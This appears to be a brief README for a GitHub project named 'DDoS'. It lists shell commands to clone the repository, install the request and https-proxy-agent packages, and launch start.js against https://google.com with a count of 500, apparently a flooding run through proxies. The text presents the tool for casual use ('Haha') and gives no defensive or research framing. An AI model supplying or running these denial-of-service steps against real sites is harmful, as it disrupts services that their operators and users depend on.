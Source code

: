 # DDoS
Haha
git clone https://github.com/quan234/DDoS.git
cd DDoS 
npm i request
npm i https-proxy-agent
node start.js https://google.com 500
